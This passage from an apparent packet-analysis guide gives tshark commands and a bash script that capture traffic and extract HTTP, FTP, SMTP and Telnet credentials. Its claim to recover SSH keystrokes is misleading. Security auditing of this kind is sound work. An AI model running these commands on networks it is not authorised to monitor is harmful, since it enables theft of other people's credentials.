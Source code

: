### Example: Extracting Credentials from Unencrypted Protocols

This example demonstrates extracting various types of credentials from a packet capture:

1. Capture network traffic during a busy period:

```bash
# Capture all traffic for 1 hour
sudo tshark -i eth0 -a duration:3600 -w network_capture.pcap
```

2. Extract HTTP basic authentication credentials:

```bash
tshark -r network_capture.pcap -Y "http.authorization" -T fields -e http.authorization
```

3. Extract form-based authentication attempts:

```bash
tshark -r network_capture.pcap -Y "http.request.method == \"POST\" && http.request.uri contains \"login\"" -T fields -e frame.time -e ip.src -e http.host -e http.request.uri -e data-text-lines
```

4. Extract FTP credentials:

```bash
tshark -r network_capture.pcap -Y "ftp.request.command == \"USER\" || ftp.request.command == \"PASS\"" -T fields -e frame.time -e ip.src -e ftp.request.command -e ftp.request.arg
```

5. Extract SMTP authentication:

```bash
tshark -r network_capture.pcap -Y "smtp.auth.username or smtp.auth.password" -T fields -e frame.time -e ip.src -e smtp.auth.username -e smtp.auth.password
```

6. Extract Telnet/SSH keystrokes:

```bash
tshark -r network_capture.pcap -Y "telnet.data or ssh.key" -T fields -e telnet.data -e ssh.key
```

7. Create a script to automatically extract all credentials:

```bash
#!/bin/bash

PCAP_FILE=$1
OUTPUT_DIR="extracted_creds_$(date +%Y%m%d)"

mkdir -p $OUTPUT_DIR

echo "[+] Extracting HTTP Basic Authentication..."
tshark -r $PCAP_FILE -Y "http.authorization" -T fields -e frame.time -e ip.src -e http.host -e http.authorization > $OUTPUT_DIR/http_basic_auth.txt

echo "[+] Extracting HTTP POST login attempts..."
tshark -r $PCAP_FILE -Y "http.request.method == \"POST\" && (http.request.uri contains \"login\" || http.request.uri contains \"auth\" || http.request.uri contains \"signin\")" -T fields -e frame.time -e ip.src -e http.host -e http.request.uri -e data-text-lines > $OUTPUT_DIR/http_post_auth.txt

echo "[+] Extracting FTP credentials..."
tshark -r $PCAP_FILE -Y "ftp.request.command == \"USER\" || ftp.request.command == \"PASS\"" -T fields -e frame.time -e ip.src -e ftp.request.command -e ftp.request.arg > $OUTPUT_DIR/ftp_creds.txt

echo "[+] Extracting SMTP authentication..."
tshark -r $PCAP_FILE -Y "smtp.auth.username or smtp.auth.password" -T fields -e frame.time -e ip.src -e smtp.auth.username -e smtp.auth.password > $OUTPUT_DIR/smtp_auth.txt

```